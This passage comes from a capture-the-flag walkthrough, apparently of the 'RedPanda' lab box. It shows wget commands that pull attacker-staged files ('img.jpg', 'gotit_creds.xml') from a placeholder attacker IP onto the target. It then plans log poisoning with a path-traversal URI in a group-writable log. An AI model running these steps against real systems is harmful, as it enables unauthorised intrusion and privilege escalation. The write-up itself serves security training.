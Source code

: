 On the box (still in the `/tmp/stby` directory from earlier), run these commands to get the files

```bash
wget http://<YOUR IP ADDRESS>:8000/img.jpg
wget http://<YOUR IP ADDRESS>:8000/gotit_creds.xml
```

Now in order to trigger all of this, all we have to do is get our URI (`/../../../../../../tmp/stby/img.jpg`) into the logs. Unfortunately, if we just try to navigate to `http://10.10.11.170:8080/../../../../../../tmp/stby/img.jpg` in our browser, it will error out with a `400` code and our request won't show up in the logs, so let's look at the logs a bit more.

```bash
cd /opt/panda_search
ls -la
```

This returns
```
total 48
drwxrwxr-x 5 root root  4096 Jun 14 14:35 .
drwxr-xr-x 5 root root  4096 Jun 23 18:12 ..
drwxrwxr-x 3 root root  4096 Jun 14 14:35 .mvn
-rwxrwxr-x 1 root root 10122 Jun 14 12:46 mvnw
-rw-rw-r-- 1 root root  6603 Feb 21  2022 mvnw.cmd
-rw-rw-r-- 1 root root  2577 Apr 27 14:44 pom.xml
-rw-rw-r-- 1 root logs     1 Sep 11 06:52 redpanda.log
drwxrwxr-x 4 root root  4096 Jun 14 14:35 src
drwxrwxr-x 9 root root  4096 Jun 22 09:07 target
```

Looks like the logs are only writable by the root user and members of the `logs` group. Let's quickly check to see if we're in that group. Run this

```bash
groups
```

We get this back
```
logs woodenk
```

Looks like we are actually in that group, so we should be able to edit this file directly.

Let's look at the format

```bash
cat redpanda.log
```

That command should return something like this
```
304||10.10.16.3||Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0||/img/angy.jpg
304||10.10.16.3||Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0||/img/angy.jpg
304||10.10.16.3||Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0||/img/angy.jpg
```
